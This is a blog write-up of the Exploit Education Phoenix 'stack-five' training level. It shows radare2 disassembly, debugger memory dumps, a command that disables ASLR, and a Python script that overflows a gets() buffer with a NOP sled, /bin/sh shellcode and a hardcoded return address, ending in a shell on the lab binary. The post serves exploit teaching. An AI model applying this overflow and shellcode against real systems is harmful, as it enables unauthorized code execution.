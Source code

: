 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Five"
date: "2019-10-14 22:45:00 +0300"
categories: exploit-education phoenix x86
---
```


{% highlight shell %}
rabin2 -I /opt/phoenix/i486/stack-five 
arch     x86
baddr    0x8048000
binsz    3249
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As can be seen, the same information about the binary as in the previous levels is presented here as well.

To disassemble the binary, `radare2` comes in handy.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-five
{% endhighlight %}

{% highlight nasm %}
[0x080482f0]> aas
Cannot analyze at 0x08048520
[0x080482f0]> afl
0x08048294    1 17           sym._init
0x08048440    7 277  -> 112  sym.frame_dummy
0x080484e0    5 49           sym.__do_global_ctors_aux
0x08048511    1 12           sym._fini
0x080483c0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   41 476  -> 554  sym..interp
0x080482f0    1 62           entry0
0x080482e0    1 6            sym.imp.__libc_start_main
0x0804856c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048590    3 34           sym..eh_frame
0x080485cc    1 41           obj.__EH_FRAME_BEGIN
0x08048330    4 49   -> 40   sym.deregister_tm_clones
0x08048618    1 4            obj.__FRAME_END
0x08048485    1 30           sym.start_level
0x080482c0    1 6            sym.imp.gets
0x080484a3    1 51           main
0x080482d0    1 6            sym.imp.puts
[0x080482f0]> s main
[0x080484a3]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048324
|           0x080484a3      8d4c2404       lea ecx, [arg_4h]
|           0x080484a7      83e4f0         and esp, 0xfffffff0
|           0x080484aa      ff71fc         push dword [ecx - 4]
|           0x080484ad      55             push ebp
|           0x080484ae      89e5           mov ebp, esp
|           0x080484b0      51             push ecx
|           0x080484b1      83ec04         sub esp, 4
|           0x080484b4      83ec0c         sub esp, 0xc
|           0x080484b7      6820850408     push str.Welcome_to_phoenix_stack_five__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048520 ; "Welcome to phoenix/stack-five, brought to you by https://exploit.education"
|           0x080484bc      e80ffeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080484c1      83c410         add esp, 0x10
|           0x080484c4      e8bcffffff     call sym.start_level
|           0x080484c9      b800000000     mov eax, 0
|           0x080484ce      8b4dfc         mov ecx, dword [var_4h]
|           0x080484d1      c9             leave
|           0x080484d2      8d61fc         lea esp, [ecx - 4]
\           0x080484d5      c3             ret
[0x080484a3]> s sym.start_level
[0x08048485]> pdf
/ (fcn) sym.start_level 30
|   sym.start_level ();
|           ; var int32_t var_88h @ ebp-0x88
|           ; CALL XREF from main @ 0x80484c4
|           0x08048485      55             push ebp
|           0x08048486      89e5           mov ebp, esp
|           0x08048488      81ec88000000   sub esp, 0x88
|           0x0804848e      83ec0c         sub esp, 0xc
|           0x08048491      8d8578ffffff   lea eax, [var_88h]
|           0x08048497      50             push eax
|           0x08048498      e823feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0804849d      83c410         add esp, 0x10
|           0x080484a0      90             nop
|           0x080484a1      c9             leave
\           0x080484a2      c3             ret
{% endhighlight %}

The infamous `gets` call is once again used. This level is all about shellcoding and that's why the buffer has a size of 136 bytes.

The way of shellcoding is pretty simple. The contents of the payload are listed below:
1. NOP sled, so that there is some flexibility as to what the value of the return address should be.
1. Shellcode, considering that this is our objective.
1. NOP padding.
1. Return address.

Something noteworthy is that in the case of using the deb package, instead of the virtual machines, ASLR needs to be disabled manually.

{% highlight shell %}
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

To overwrite the return address, the input needs to have 136 bytes to fill the buffer, 4 more bytes to override the previous stack frame's pointer and, lastly, 4 more bytes to overwrite the return address.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x4e'*80
shellcode = b'\x53'*35
nop_padding = b'\x50'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x52'*4

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
$ r2 -d /opt/phoenix/i486/stack-five -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7fc5d4b]> aas
Cannot analyze at 0x08048520
[0xf7fc5d4b]> db 0x08048498
[0xf7fc5d4b]> dc
Welcome to phoenix/stack-five, brought to you by https://exploit.education
hit breakpoint at: 8048498
[0x08048498]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xffffd340
edx = 0x00000000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd360
ebp = 0xffffd3f8
eip = 0x08048498
eflags = 0x00000292
oeax = 0xffffffff
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0xf7ffb1e0 0xffffd3bf 0x00000001 0x00000000  ................
0xffffd380  0x00b0bc7e 0x00000001 0x00960026 0x00000000  ~.......&.......
0xffffd390  0x0000000a 0xf7ffb1e0 0x00000000 0xf7fb5ab8  .............Z..
0xffffd3a0  0xf7ffb1e0 0xffffd3bf 0x00000001 0x0000000a  ................
0xffffd3b0  0x08048520 0x08048511 0x00000000 0x0afb7038   ...........8p..
0xffffd3c0  0xf7fb5a5b 0xf7ffb000 0xf7ffb1e0 0xf7fb8958  [Z..........X...
0xffffd3d0  0xf7ffb1e0 0x0000000a 0x00000000 0x00000000  ................
0xffffd3e0  0xf7ffb000 0xffffd494 0x00000001 0x080484c1  ................
0xffffd3f0  0x08048520 0x00000000 0xffffd408 0x080484c9   ...............
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x080484c9                                   ....
[0x08048498]> dso
hit breakpoint at: 804849d
[0x08048498]> px/40xw 0xffffd360
0xffffd360  0xffffd370 0xffffd388 0xffffd408 0xf7fb5da9  p............]..
0xffffd370  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd380  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd390  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3a0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3b0  0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e 0x4e4e4e4e  NNNNNNNNNNNNNNNN
0xffffd3c0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3d0  0x53535353 0x53535353 0x53535353 0x53535353  SSSSSSSSSSSSSSSS
0xffffd3e0  0x50535353 0x50505050 0x50505050 0x50505050  SSSPPPPPPPPPPPPP
0xffffd3f0  0x50505050 0x50505050 0x50505050 0x52525252  PPPPPPPPPPPPRRRR
[0x08048498]> px/xw 0xffffd3f8+0x4
0xffffd3fc  0x52525252                                   RRRR
[0x08048498]> dc
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x52525252 code=1 ret=0
[0x52525252]> dr
eax = 0xffffd370
ebx = 0xf7ffb000
ecx = 0xfefeff09
edx = 0x80808000
esi = 0xffffd494
edi = 0x00000001
esp = 0xffffd400
ebp = 0x50505050
eip = 0x52525252
eflags = 0x00010282
oeax = 0xffffffff
{% endhighlight %}

Now, it is pretty easy to modify the script so that some shellcode will be executed.

{% highlight python %}
#!/usr/bin/env python3
import os

nop_sled = b'\x90'*80
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
nop_padding = b'\x90'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x90\xd3\xff\xff'

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
{% endhighlight %}

{% highlight shell %}
$ cat pattern - | /opt/phoenix/i486/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
test
{% endhighlight %}

## Conclusion
This level introduced a simple shellcoding challenge that was possible thanks to a call to `gets`, which does not restrict the size of bytes to be read, and also a buffer that had a size big enough to contain the shellcode.
